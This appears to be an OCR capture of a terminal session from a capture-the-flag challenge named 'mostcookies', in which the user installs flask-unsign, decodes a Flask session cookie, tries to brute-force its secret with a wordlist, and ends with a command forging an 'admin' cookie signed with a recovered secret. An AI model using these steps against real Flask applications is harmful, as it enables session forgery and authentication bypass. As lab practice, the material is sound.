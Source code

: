 

srriv@LAPTOP-7DDM83G8:~/SRSS/mostcookies$ pipx ensurepath
Success! Added /home/srriv/.local/bin to the PATH environment variable.

Consider adding shell completions for pipx. Run 'pipx completions' for instructions.

You will need to open a new terminal or re-login for the PATH changes to take effect.

Otherwise pipx is ready to go! ✨ 🌟 ✨
srriv@LAPTOP-7DDM83G8:~/SRSS/mostcookies$ pipx install flask-unsign
  installed package flask-unsign 1.2.1, installed using Python 3.12.3
  These apps are now globally available
    - flask-unsign
⚠️  Note: '/home/srriv/.local/bin' is not on your PATH environment variable. These apps will not be globally accessible until your
    PATH is updated. Run `pipx ensurepath` to automatically add it, or manually modify your PATH in your shell's config file (i.e.
    ~/.bashrc).
done! ✨ 🌟 ✨
srriv@LAPTOP-7DDM83G8:~/SRSS/mostcookies$ echo "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Z-7aXQ.KaGZCrkgomkQkbE2mKVDTQORrgQ" | base64 -d
{"very_auth":"snickerdoodle"}base64: invalid input
srriv@LAPTOP-7DDM83G8:~/SRSS/mostcookies$ flask-unsign --unsign --cookie "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Z-7aXQ.KaGZCrkgomkQkbE2mKVDTQORrgQ" --wordlist galletas.txt
flask-unsign: command not found
srriv@LAPTOP-7DDM83G8:~/SRSS/mostcookies$ pipx ensurepath
/home/srriv/.local/bin has been been added to PATH, but you need to open a new terminal or re-login for this PATH change to take
    effect.

You will need to open a new terminal or re-login for the PATH changes to take effect.

Otherwise pipx is ready to go! ✨ 🌟 ✨
srriv@LAPTOP-7DDM83G8:~/SRSS/mostcookies$ flask-unsign --unsign --cookie "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Z-7aXQ.KaGZCrkgomkQkbE2mKVDTQORrgQ" --wordlist galletas.txt
flask-unsign: command not found
srriv@LAPTOP-7DDM83G8:~/SRSS/mostcookies$

flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret "fortune"
